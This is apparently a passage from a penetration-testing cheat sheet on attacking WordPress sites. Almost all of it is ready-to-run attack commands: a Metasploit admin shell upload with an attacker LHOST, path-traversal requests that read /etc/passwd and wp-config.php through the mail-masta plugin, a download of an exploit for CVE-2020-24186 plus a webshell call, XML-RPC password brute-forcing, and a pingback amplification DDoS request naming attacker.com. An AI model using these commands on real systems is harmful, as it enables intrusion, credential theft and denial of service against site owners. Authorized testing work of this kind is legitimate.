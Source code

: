 #### Metasploit Exploitation
```bash
# WordPress admin shell upload
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS target_ip
set VHOST target.com
set USERNAME admin
set PASSWORD password123
set LHOST attacker_ip
exploit
```

### Common WordPress Vulnerabilities

#### Plugin Vulnerabilities

##### mail-masta LFI
```bash
# Vulnerable parameter: pl
curl "http://target.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"

# Windows version
curl "http://target.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=C:/windows/system32/drivers/etc/hosts"

# WordPress config extraction
curl "http://target.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=../../../wp-config.php"
```

##### wpDiscuz RCE (CVE-2020-24186)
```bash
# Download exploit
wget https://github.com/hevox/CVE-2020-24186/raw/main/wp_discuz.py

# Execute exploit
python3 wp_discuz.py -u http://target.com -p "/?p=1"

# Manual exploitation if script fails
curl "http://target.com/wp-content/uploads/YEAR/MONTH/webshell.php?cmd=id"
```

#### XML-RPC Exploitation
```bash
# XML-RPC detection
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://target.com/xmlrpc.php

# Brute force via XML-RPC
curl -X POST -d "<?xml version='1.0'?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>password</value></param></params></methodCall>" http://target.com/xmlrpc.php

# Amplification attacks (DDoS)
curl -X POST -d "<?xml version='1.0'?><methodCall><methodName>system.multicall</methodName><params><param><value><array><data><value><struct><member><name>methodName</name><value><string>pingback.ping</string></value></member><member><name>params</name><value><array><data><value><string>http://attacker.com</string></value><value><string>http://target.com/existing-post</string></value></data></array></value></member></struct></value></data></array></value></param></params></methodCall>" http://target.com/xmlrpc.php
```
